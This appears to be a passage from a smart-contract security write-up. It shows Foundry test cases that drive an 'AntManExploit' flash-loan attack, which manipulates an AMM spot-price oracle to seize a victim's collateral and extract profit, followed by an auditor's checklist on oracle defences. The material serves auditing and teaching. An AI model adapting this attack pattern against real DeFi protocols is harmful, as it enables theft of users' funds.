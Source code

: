 ```solidity
        bytes memory data = abi.encodeWithSelector(AntManExploit.execute.selector, 500_000 ether, wasp, 0);
        vm.prank(attacker);
        qrbA.flashLoan(500_000 ether, address(exploit), data);

        // Wasp collateral should be seized
        assertEq(vault.collateralBalance(wasp), 0);
    }

    // Scenario A: Over-borrow fails due to AMM slippage
    function testScenarioA_OverBorrowFails() public {
        bytes memory data = abi.encodeWithSelector(AntManExploit.execute.selector, 500_000 ether, wasp, 1);
        vm.expectRevert("loan not repaid");
        vm.prank(attacker);
        qrbA.flashLoan(500_000 ether, address(exploit), data);
    }

    // Scenario B: Over-borrow succeeds using TokenB flash loan
    function testScenarioB_OverBorrowSucceeds() public {
        // Deploy flash loan bank for TokenB
        QuantumRealmBank qrbB = new QuantumRealmBank(address(tokenB));
        tokenB.mint(address(qrbB), 1_000_000 ether);

        // Mint enough TokenB to the Vault to allow over-borrow
        tokenB.mint(address(vault), 1_000_000 ether);

        // Give exploit contract extra TokenA to repay swap-back
        tokenA.mint(address(exploit), 500_000 ether);

        bytes memory data = abi.encodeWithSelector(AntManExploit.execute.selector, 500_000 ether, wasp, 2);
        vm.prank(attacker);
        qrbB.flashLoan(500_000 ether, address(exploit), data);

        // Attacker should have profit in TokenB
        assertGt(tokenB.balanceOf(attacker), 0);
        console.log("Attacker TokenB profit:", tokenB.balanceOf(attacker));
    }
}
```

---

## Auditor’s checklist 

* [ ] Does any critical function depend on a mutable on-chain spot price (`getPymPrice()`)?
* [ ] Are price sources resistant to single-tx manipulation (TWAP / aggregated feeds)?
* [ ] Are there borrow/cap limits that make manipulation expensive?
* [ ] Are pre/post invariant checks performed around external calls?
* [ ] Do tests include large-swap / quantum-loan scenarios?
* [ ] Are monitoring & circuit breakers present for mass/fast withdrawals?

---